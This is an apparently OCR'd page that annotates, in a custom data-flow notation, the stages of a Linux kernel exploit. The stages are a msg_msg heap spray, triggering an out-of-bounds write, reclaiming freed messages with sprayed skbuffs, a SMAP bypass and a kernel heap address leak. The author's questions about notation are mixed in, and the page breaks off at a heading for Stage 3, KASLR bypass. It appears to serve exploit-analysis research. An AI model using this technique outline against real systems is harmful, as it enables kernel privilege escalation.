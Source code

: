  [data1] int s;
 [data2] int fd;
 [data3] int ss[NUM_SOCKETS][2];
 [data4] int pipefd[NUM_PIPEFDS][2];
 [data5] int msqid[NUM_MSQIDS];

 [data6] char secondary_buf[SECONDARY_SIZE - SKB_SHARED_INFO_SIZE];

 [data7] struct msg_msg *msg;
 [data8] struct pipe_buf_operations *ops;
 [data9] struct pipe_buffer *buf;

 [data10] uint64_t kheap_addr = 0
 int fake_idx = -1, real_idx = -1;
 
 [data11] struct msg_primary;
 [data12] struct msg_secondary;
 [data13] struct msg_fake;

 [data14] struct data;
 [data15] uint64_t kbase_addr = 0;

====================================================
[flow] data1.0 ---= socket(conts) ---> data1.0 -- ## it does not chang a data structure

[flow] data3.0 * conts --- socketpair ---> data3.1,…,data3.4
[flow] data5.0 ---= msgget ---> data5.1,…,data5.4096

########################################
#### Step 1 – Memory Corruption #######
########################################
#### Spraying primary messages...####
[flow] data11.0 * "0" --- memset ---> data11.1.1,…,data11.1.4096
   *(int *)&[data11.1].mtext[0] = conts;
   *(int *)&[data11.1].mtext[4] = 1,…,4096;
### write primary messages to the message queue ####
## [flow] data5.1,…,data5.4096 * &data11.1 --- write_msg ---> &data11.1

#### Spraying secondary messages...####
[flow] data12.0 * "0"  --- memset ---> data12.1.1,…,data12.1.4096
   *(int *)&[data12.1].mtext[0] = conts;
   *(int *)&[data12.1].mtext[4] = 1,…,4096;
########## write secondary messages to the message queue  ############
## [flow] data5.1,…,data5.4096 * &data12.1 --- write_msg ---> &data12.1

########### creating holes in the primary message #############
[flow] data5.1,…,data5.3072 * &data11.1 --- read_msg --->  &data11.2 {data11.2.1024, data11.2.2048 ,data11.2.3072}

### trigger the out of bond write ###
[flow] data1.0  --- trigger_oob_write ---> data1.0
[flow] data1.0  * data14.0 * conts --- setsockopt ---> data14.1

### Searching for corrupted primary message ###
#### vulnerable state #######
[flow] data5.1,…,data5.4096 * &data12.1 --- peek_msg ---> data12.2.1,…,data12.2.4096
### fake_idx's primary message has a corrupted next pointer; wrongly 
### pointing to real_idx's secondary message. ##########
fake_idx = i;
real_idx = *(int *)&msg_secondary.mtext[4];

############################################
### Stage 2 - carry out the SMAP bypass ###
############################################

### Freeing real secondary message ###
[flow] data5.1{real_idx} * &data12.2 —read_msg—> &data12.3

######### Reclaim the previously freed secondary message with a fake msg_msg of #######
######### maximum possible size.

[flow] data6.0 * "0" —memset—> data6.1
[flow] data6.1 * conts —build_msg_msg—> data6.2
[flow] data3.1 * data6.2 —spray_skbuff—> data3.2

######### use fake secondary message to read out-of-bonds… #########
######### Leaking adjacent secondary message ##################
[flow] data5.1{fake_idx} * &data13.0 —peak_msg—> &data13.1


######### the secondary message contains a pointer to the primary message ##########
*** how represent assignment that changes the data structure? ***
#####
[flow] data7.0 —--= (msg_msg *)&data13.1.mtext[conts]--—> data7.1

[flow] data10.0 —--= data7.1->m_list_next --—> data10.1

**** How to convey if statement? ****
[flow] data10.1 —--= data7.1->m_list_prev --—> data10.2

<<-- should this assignment be covered ??? -->>
### kheap_addr -= SECONDARY_SIZE;


####### freeing fake secondary message ###########
#### read from data3.1 to data6.2
[flow] data3.1 * data6.2 —free_skbuff—> data6.3

 ####### Put kheap_addr at next to leak its content.
 ############## Assumes zero bytes before -- kheap_addr.
[flow] data6.3 * "0" --memset--> data6.4
[flow] data6.4 * conts —build_msg_msg—> data6.5
[flow] data3.2 * data6.5 —spray_skbuff—> data3.3

[flow] data5.1{fake_idx} * &data13.1 —peek_msg—> &data13.2

[flow] data7.1 —--= (msg_msg *)&data13.2.mtext[conts]--—> data7.2
[flow] data10.2 —--= data7.2->m_list_next --—> data10.3

*********under the if condition ***
[flow] data10.3 —--= data7.2->m_list_prev --—> data10.4

<<-- should this assignment be covered -->>
### kheap_addr -= SECONDARY_SIZE;

============================================================

⇒ STAGE 3: KASLR bypass


